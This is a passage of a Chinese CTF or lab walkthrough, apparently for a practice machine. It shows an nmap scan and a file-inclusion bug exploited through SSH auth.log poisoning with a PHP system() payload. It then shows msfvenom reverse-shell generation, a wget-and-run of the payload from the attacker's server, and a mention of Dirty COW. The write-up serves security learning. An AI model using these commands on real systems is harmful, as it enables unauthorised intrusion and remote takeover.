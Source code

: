     只能普通扫

    nmap -sS 192.168.43.192

    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    开了80 和 22，访问之
    
    ```

* 漏洞发现

    ```php

    源码里都是井号，但是看到点页面跳转的方式是有一个file参数

    尝试文件包含apache日志路径无果，尝试包含ssh登录日志

    先ssh登录

    ssh '<?php system($_GET[1])?>'@192.168.43.192

    再包含

    ?file=/var/log/auth.log&1=ls

    (传的时候把后面的参数url全编码)

    ?file=/var/log/auth.log&1=%6c%73%20%2f

    发现命令执行

    ```

* 漏洞利用

    ```php

    在本地生成木马，然后本地起一个http服务，靶机用wget木马然后反弹shell

    靶机执行uname -a

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.43.28 LPORT=9594 -f elf > shell.elf

    python -m SimpleHTTPServer

    靶机

    wget 192.168.43.28:8000/shell.elf

    chmod +x shell.elf

    ./shell.elf

    (记得url全编码)
    

    msf开启监听本地9594端口
    ```

* 权限提升(脏牛没有成功)

    >[脏牛提权CVE-2016-5195](https://github.com/firefart/dirtycow.git)
    ```php
